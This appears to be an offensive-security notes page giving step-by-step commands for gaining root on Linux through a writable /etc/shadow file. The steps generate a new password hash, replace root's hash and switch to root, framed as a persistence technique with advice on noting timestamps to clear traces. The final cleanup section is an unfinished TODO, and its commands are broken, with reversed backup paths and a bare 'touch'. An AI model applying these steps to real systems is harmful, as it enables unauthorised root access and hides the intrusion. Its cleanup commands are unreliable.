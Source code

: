 # Living off the Land

## Weak File Permissions - Writable `/etc/shadow`

> [!INFO]
> Nowadays most modern Linux servers and desktops currently are most up-to-date and I can say you'll never find it. Yet you can use this method as a persistence technique yet it's not **OPSEC** safe. However, you'll might need it under certain circumstances.

## 01 - Detect

```
$ ls -l /etc/shadow
```

## 02 - Exploit

Before resetting the password. Take note of the timestamp to clear traces ahead of time.

```
$ stat /etc/shadow
```

Backup the shadow file. To clear traces ahead of time.

```
$ cp /etc/shadow /tmp/shadow.bak && sudo chmod o+r /etc/shadow
```

### 2.1 - Overwrite Password via Hash Digest

#### 2.1.1 - `mkpasswd`

Consult the command's usage for available hash digest algorithms.

```
$ mkpasswd -m help
```

Generate the password hash by supplying an input.

```
$ mkpasswd -m sha512crypt newpass1234
```

#### 2.1.2 - Python `crypt` Module

```
$ python -c 'import crypt; print(crypt.crypt("newpass1234", "$6$salt"))'
```

Then edit the shadow file `root:<sha512crypt_hash>:17298:0:99999:7:::` replace the old `<sha512crypt_hash>` which starts with `$6$` into a new one that was previously generated. Then try to authenticate and you're root.

```
$ su root
```

## 03 - Cleanup

TODO: Fill in this info

```
$ cp /etc/shadow.bak /tmp/shadow

$ touch
```

---
## References

- [Linux Privesc Wrong Permissions](https://wixnic.github.io/linux-privesc-wrong-permissions/)

- [Linux Privilege Escalation Writable Passwd File](https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/)